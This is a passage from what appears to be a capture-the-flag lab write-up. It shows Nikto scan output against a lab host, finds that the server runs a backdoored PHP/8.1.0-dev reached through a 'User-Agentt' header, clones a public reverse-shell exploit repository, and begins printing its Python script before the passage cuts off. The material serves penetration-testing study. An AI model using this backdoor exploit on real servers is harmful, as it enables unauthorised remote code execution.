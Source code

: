 ```console
2021/08/26 00:26:36 Finished
===============================================================
```

Unfortunately all these directories are forbidden except index.php, which is the homepage.


## Nikto
```console
kali@kali:~$ nikto -h 10.10.10.242 -ask no

- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.242
+ Target Hostname:    10.10.10.242
+ Target Port:        80
+ Start Time:         2021-08-28 16:20:21 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.41 (Ubuntu)
+ Retrieved x-powered-by header: PHP/8.1.0-dev
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ 7864 requests: 0 error(s) and 5 item(s) reported on remote host
+ End Time:           2021-08-28 16:26:24 (GMT-4) (363 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

It appears that the application is using PHP/8.1.0-dev, which is development versions. Development versions are prone to vulnerabilities. So let's do more research about it.

### PHP/8.1.0-dev

Turns out PHP/8.1.0-dev has a backdoor vulnerability that allows attackers to execute arbitrary code by sending it to the **User-Agentt** header.

We can utilize one of the scripts `revshell_php_8.1.0-dev.py` in this github repository [https://github.com/flast101/php-8.1.0-dev-backdoor-rce](https://github.com/flast101/php-8.1.0-dev-backdoor-rce) to get a reverse shell.

First we download the repository.

```console
kali@kali:~$ git clone https://github.com/flast101/php-8.1.0-dev-backdoor-rce.git
```

Let's take a look at `revshell_php_8.1.0-dev.py`.

```python
#!/usr/bin/env python3
import os, sys, argparse, requests

request = requests.Session()

def check_target(args):
    response = request.get(args.url)
    for header in response.headers.items():
        if "PHP/8.1.0-dev" in header[1]:
            return True
    return False

def reverse_shell(args):
```